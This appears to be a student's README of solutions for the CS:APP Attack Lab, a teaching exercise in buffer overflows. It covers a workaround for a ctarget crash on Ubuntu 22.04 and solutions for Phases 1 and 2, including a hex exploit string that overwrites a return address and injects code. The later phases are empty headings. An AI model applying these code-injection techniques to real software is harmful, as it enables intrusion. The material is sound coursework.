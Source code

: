 # Attack Lab
## Table of contents
- [Introduction](#introduction)
- [Duration](#duration)
- [`ctarget` segmentation fault bug on Ubuntu 22.04](#ctarget-segmentation-fault-bug-on-ubuntu-2204)

- [Solution](#solution)
    - [Phase 1](#phase-1)
    - [Phase 2](#phase-2)
    - [Phase 3](#phase-3)
    - [Phase 4](#phase-4)
    - [Phase 5](#phase-5)

## Introduction
- Note: This is the 64-bit successor to the 32-bit Buffer Lab

- Students are given a pair of unique custom-generated x86-64 binary executables, called **targets**, that have buffer overflow bugs
    - One target is vulnerable to code injection attacks
    
    - The other is vulnerable to return-oriented programming attacks
    
    - Students are asked to modify the behavior of the targets by developing exploits based on either code injection or return-oriented programming
    
- This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks

- If you're a self-study student, here are a pair of Ubuntu 12.4 targets that you can try out for yourself
    - You'll need to run your targets using the `-q` option so that they don't try to contact a non-existent grading server
    
    - If you're an instructor with a CS:APP acount, you can download the solutions here

## Duration
- 2025/2/19 - Due: 2025/2/28

## `ctarget` segmentation fault bug on Ubuntu 22.04
- No matter what strings you input or whether or not you input string, the `ctarget` will always cause segmentation fault

    ```
    (gdb) run -q
    Starting program: /home/yuchuan/projects/computer_systems_a_programmer_perspective/labs/attack_lab/target1/ctarget -q
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    Cookie: 0x59b997fa

    Program received signal SIGSEGV, Segmentation fault.
    0x00007ffff7dff0d0 in __vfprintf_internal (s=0x7ffff7fa5780 <_IO_2_1_stdout_>, format=0x4032b4 "Type string:", ap=ap@entry=0x5561dbd8, mode_flags=mode_flags@entry=2) at ./stdio-common/vfprintf-internal.c:1244
    1244    ./stdio-common/vfprintf-internal.c: No such file or directory.

    (gdb) backtrace
    #0  0x00007ffff7dff0d0 in __vfprintf_internal (s=0x7ffff7fa5780 <_IO_2_1_stdout_>, format=0x4032b4 "Type string:", ap=ap@entry=0x5561dbd8, 
        mode_flags=mode_flags@entry=2) at ./stdio-common/vfprintf-internal.c:1244
    #1  0x00007ffff7ebec4b in ___printf_chk (flag=flag@entry=1, format=format@entry=0x4032b4 "Type string:") at ./debug/printf_chk.c:33
    #2  0x0000000000401f10 in printf (__fmt=0x4032b4 "Type string:") at /usr/include/x86_64-linux-gnu/bits/stdio2.h:105
    #3  launch (offset=<optimized out>) at support.c:293
    #4  0x0000000000401ffa in stable_launch (offset=<optimized out>) at support.c:340
    Backtrace stopped: Cannot access memory at address 0x55686000
    ```

- Based on [Rijuyuezhu's blog](https://blog.rijuyuezhu.top/posts/db646f34/), it is due to an instruction in `__vfprintf_internal` of `glibc`, namely `movaps %xmm1, 0x10(%rsp)`
    - This instruction needs its memory operand `0x10(%rsp)` corresponding an address divisible by 16
    
    - I guess that due to the compiling of `ctarget` is on a old convention, where the size of function frame is not strictly required to be a multiple of 16
    
    - I tried to manually modify the low bits of `%rsp` through `gdb`, and it eliminates the `SIGSEGV`, confirming my guessing

- Get self-made `printf.so`
    - First of all, we can find a naive `printf` implementation (For me, I use the programming homework in NJU PA)
    
    - Then we can compile it to be a shared library(suppose the source file is named `printf.c`):

        ```
        gcc -shared -fPIC -o printf.so printf.c
        ```

    - Notice that we shall provide interface `__printf_chk` and `__sprintf_chk`

- Use the `LD_PRELOAD` to substitute the default `glibc` shared library
    - Put `printf.so` in the same directory of `ctarget`, then use command

        ```
        LD_PRELOAD=./printf.so ./ctarget -q
        ```

    - And it works! 

- **What is the relation between the self-made `printf.so` and `movaps` instruction?**
    - Does self-made `printf.so` ensure the stack frame address satisfy a 16-byte alignment?

- How to use `gdb` with `LD_PRELOAD`

    ```
    gdb your_program

    (gdb) set environment LD_PRELOAD ./printf.so
    (gdb) start
    ```

## Solution
- Disassemble `ctarget` and store it in the file [`ctarget_disassemble`](./target1/disassemble/ctarget_disassemble)

    ```
    objdump -d ctarget > disassemble/ctarget_disassemble
    ```
### Phase 1
- `getbuf`
    - The stack frame

        ![](./images/getbuf_stack_frame.png)

- We need to fill 0x28 (40) bytes of `getbuf` stack frame and then overwrite the return address to `touch1` first instruction address
    - [Exploit string](./target1/phase_1_exploit.txt)

    - Generate [exploit raw string](./target1/phase_1_exploit_rax.txt)

        ```
        ./hex2raw < phase_1_exploit.txt > phase_1_exploit_rax.txt
        ```

    - Apply the raw string to `ctarget`

        ```
        LD_PRELOAD=./printf.so ./ctarget -q -i phase_1_exploit_rax.txt
        ```

### Phase 2
- The stack frame is as follows

    ![](./images/phase_2_stack_frame.png)

- We can't insert the exploit code into `getbuf` stack frame, because when `ret` is executed, the stack frame has been released by increasing the value of `%rsp`

- Therefore, we insert the exploit code which contains `mov` and `ret` instructions at the address of the return address in `launch` stack frame
    - `rsp` is `0x5561dc78`

        ```
        (gdb) print /x $rsp
        $1 = 0x5561dc78
        ```

    - The address is `%rsp + 0x28 + 0x8 +0x8 = 0x5561dcb0`

        ```
        (gdb) x/gx 0x5561dcb0
        0x5561dcb0:     0x0000000000401f24
        ```

- The exploit code is to move cookie value to register `%rdi` which is shown in [mov_rdi.s](./target1/phase_2/mov_rdi.s) and `ret` instruction

- We insert the `touch2` function first instruction address to the stack frame in `test` function

- After the `getbuf` executes `ret` instruction, the code transfers the control to the exploit code, executes `mov` and `ret` instructions, and transfers the control to `touch2`

- The phase 2 exploit string is

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    b0 dc 61 55 00 00 00 00 /* position of return address of launch function */
    ec 17 40 00 00 00 00 00 /* touch2 first instruction address */
    bf fa 97 b9 59 c3 00 00 /* mov $0x59b997fa,%edi  ret */
    ```

### Phase 3

### Phase 4
### Phase 5